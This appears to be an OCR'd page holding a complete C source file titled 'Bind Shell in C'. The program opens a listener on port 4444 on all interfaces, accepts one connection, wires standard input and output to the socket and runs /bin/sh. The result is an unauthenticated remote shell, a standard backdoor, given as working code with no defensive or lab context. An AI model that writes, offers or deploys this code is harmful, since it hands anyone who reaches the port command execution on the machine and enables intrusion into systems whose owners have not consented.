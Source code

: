 
*Bind Shell in C*

```c title:bind_shell.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main() {
    // 1. Create socket
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("socket failed");
        exit(EXIT_FAILURE);
    }

    // 2. Bind socket
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444); // Port 4444
    addr.sin_addr.s_addr = INADDR_ANY; // 0.0.0.0
    
    if (bind(sockfd, (struct sockaddr*)&addr, sizeof(addr)) < 0) {
        perror("bind failed");
        close(sockfd);
        exit(EXIT_FAILURE);
    }

    // 3. Listen
    if (listen(sockfd, 1) < 0) {
        perror("listen failed");
        close(sockfd);
        exit(EXIT_FAILURE);
    }

    // 4. Accept connection
    int clientfd = accept(sockfd, NULL, NULL);
    if (clientfd < 0) {
        perror("accept failed");
        close(sockfd);
        exit(EXIT_FAILURE);
    }

    // 5. Duplicate file descriptors
    dup2(clientfd, 0); // STDIN
    dup2(clientfd, 1); // STDOUT
    dup2(clientfd, 2); // STDERR
    close(clientfd);

    // 6. Execute shell
    char *args[] = {NULL};
    char *env[] = {NULL};
    execve("/bin/sh", args, env);

    // Only reached if execve fails
    perror("execve failed");
    close(sockfd);
    return EXIT_FAILURE;
}
```
